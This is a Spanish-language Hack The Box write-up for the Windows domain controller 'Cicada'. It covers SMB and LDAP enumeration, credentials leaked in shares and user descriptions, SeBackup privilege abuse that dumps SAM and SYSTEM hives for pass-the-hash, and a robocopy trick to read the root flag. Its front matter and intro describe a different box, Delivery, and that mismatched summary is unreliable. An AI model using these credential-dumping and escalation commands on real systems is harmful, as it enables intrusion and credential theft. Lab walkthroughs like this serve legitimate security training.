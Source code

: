 ```yaml
---
layout: single
title: Cicada - Hack The Box
excerpt: "Cicada is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell."
date: 2024-09-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-cicada/cicada_logo.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - windows
tags:  
  - passthehash
  - ldapdump
  - AD
  - enumeration
  - netexec
---
```


![](/assets/images/htb-writeup-cicada/cicada_logo.jpg)

Delivery is a quick and fun easy box where we have to create a MatterMost account and validate it by using automatic email accounts created by the OsTicket application. The admins on this platform have very poor security practices and put plaintext credentials in MatterMost. Once we get the initial shell with the creds from MatterMost we'll poke around MySQL and get a root password bcrypt hash. Using a hint left in the MatterMost channel about the password being a variation of PleaseSubscribe!, we'll use hashcat combined with rules to crack the password then get the root shell.

## Escaneo de Puertos

```
Nmap scan report for cicada.htb (10.10.11.35)
Host is up (0.12s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-29 10:29:04Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
50823/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m55s
| smb2-time: 
|   date: 2024-09-29T10:29:58
|_  start_date: N/A
```

## Enumeración

Empezamos enumerando los recursos compartidos por SMB, empleando el siguiente comando: `smbclient -L 10.10.11.35`. Para conectarnos por SMB con una null session.

![](/assets/images/htb-writeup-cicada/smbclient.png)

Intentamos acceder a cada recursos compartido. Sin embargo, no nos deja iniciar sin credenciales o está vacío. No obstante en el recurso HR obtenemos el siguiente archivo:

![](/assets/images/htb-writeup-cicada/smbclient_HR.png)

Lo descargamos a nuestra máquina de atacante con el siguiente comando: `get Notice\ from\ HR.txt`

Una vez descargamos y leemos su contenido

![](/assets/images/htb-writeup-cicada/creds.png)

Observamos que tenemos la contraseña `Cicada$M6Corpb*@Lp#nZp!8`

Ahora debemos enumerar los usuarios existentes del dominio, para ello usamos la herramienta netexec (también se puede usar crackmapexec) con el parámetro `--rid-brute`.
Empleamos el siguiente comando: `netexec smb 10.10.11.35 -u guest -p '' --rid-brute`.

![](/assets/images/htb-writeup-cicada/users_nxc.png)

Lo guardamos en el archivo `rid.txt` y ejecutamos el siguiente comando para filtrar solo por los usuarios: 

`cat rid.txt | grep SidTypeUser | awk '{print $6}' | awk -F\\ '{print $2}' > users.txt`

Validamos las credenciales con netexec

![](/assets/images/htb-writeup-cicada/shares.png)

Podemos observar la credencial válida es de `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

Empleando ldapdomaindump dumpeamos toda la información del dominio

![](/assets/images/htb-writeup-cicada/ldapdomaindump_michael.png)
![](/assets/images/htb-writeup-cicada/ldapdomaindump_michael2.png)

Leemos el contenido del archivo `domain_users.json`

Observamos que la contraseña del usuario david.orelious está en la descripción

![](/assets/images/htb-writeup-cicada/david_orelious_creds.png)

Ya tenemos las credenciales de `david.orelious:aRt$Lp#7t*VQ!3`

Con estas credenciales comprobamos los recursos a los que podemos acceder y notamos que podemos acceder al recurso `DEV` con permisos de lectura

![](/assets/images/htb-writeup-cicada/smb_david.png)

![](/assets/images/htb-writeup-cicada/smb_david2.png)

Descargamos el archivo `Backup_script.ps1` y leemos su contenido

![](/assets/images/htb-writeup-cicada/emily_oscars_creds.png)

Obtenemos las credenciales de `emily.oscars:Q!3@Lp#M6b*7t*Vt`

## User Shell

Validamos las credenciales de emily con netexec y observamos que nos sale (Pwn3d!)

![](/assets/images/htb-writeup-cicada/emily_pwned.png)

Lo que significa que tenemos acceso remoto a la máquina víctima

Nos conectaremos con evil-winrm con las credenciales de emily y accedemos a la máquina víctima

![](/assets/images/htb-writeup-cicada/emily_shell.png)

Y obtenemos nuestra primera flag

![](/assets/images/htb-writeup-cicada/user_flag.png)

## Escalada de Privilegios

Empleamos el comando whoami /priv para averiguar los privilegios que tiene el usuario

![](/assets/images/htb-writeup-cicada/emily_priv.png)

Notamos que tenemos los privilegios de SeBackup y SeRestore

Nos guiamos de la siguiente página [https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) para abusar de estos privilegios y escalar como administrador

Nos vamos al directorio C:\ y creamos el directorio Temp

![](/assets/images/htb-writeup-cicada/priv1.png)

estando en C:\Temp\ ejecutamos el siguiente comando:
`reg save hklm\sam C:\Temp\sam`
`reg save hklm\system C:\Temp\system`

Teniendo los archivos sam y system, lo descargamos a nuestra máquina
![](/assets/images/htb-writeup-cicada/priv2.png)

En nuestra máquina, usaremos pypykatz (mimikatz empleando python) para extraer los hashes de los usuarios

`pypykatz registry --sam sam system`

Otra forma: `impacket-secretsdump -sam sam -system system local`

![](/assets/images/htb-writeup-cicada/priv3.png)

Una vez obtenido los hashes, podemos conectarnos como administrador realizando PasstheHash

Ya como administrador obtenemos la flag de root

![](/assets/images/htb-writeup-cicada/priv4.png)

## Otra forma (No intencionado -> obtener root.txt sin ser administrador)

En la máquina víctima ejecutamos:

`robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B`
`type C:\Users\Public\root.txt`

Y obtendremos el archivo root.txt

![](/assets/images/htb-writeup-cicada/root1.png)

![](/assets/images/htb-writeup-cicada/pwned.png)